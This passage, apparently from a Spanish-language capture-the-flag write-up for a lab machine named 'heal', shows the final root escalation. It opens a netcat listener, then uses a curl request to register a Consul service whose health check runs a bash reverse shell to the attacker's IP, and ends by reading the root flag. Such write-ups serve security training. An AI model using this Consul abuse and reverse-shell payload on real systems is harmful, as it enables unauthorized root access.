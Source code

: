 Entonces, en nuestra máquina nos vamos a poner escucha por el puerto 443 con `netcat`
```console
nc -lvnp 443
listening on [any] 443 ...
```

Ahora, en la máquina víctima vamos a hacer la solicitud con `curl` en vez de utilizar el script ya que no lo veo necesario.
```console
ron@heal:~$ curl -X PUT "http://127.0.0.1:8500/v1/agent/service/register" -H "X-Consul-Token:" -d '{"Address":"10.10.14.103","check":{"Args":["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.103/443 0>&1"],"interval":"10s","Timeout":"864000s"},"ID":"pwned","Name":"pwned","Port":80}'
```

Ahora podemos ver en el panel que se ha creado el nuevo servicio.
![Write-up Image](images/Screenshot_36.png)

Tras esperar unos segundos, vemos que me llega una conexión y ganamos acceso a la máquina víctima como `root`
```console
root@heal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@heal:/# cat /root/root.txt
375a6e1860d9c...
```

¡Y ya estaría!

Happy Hacking! 🚀
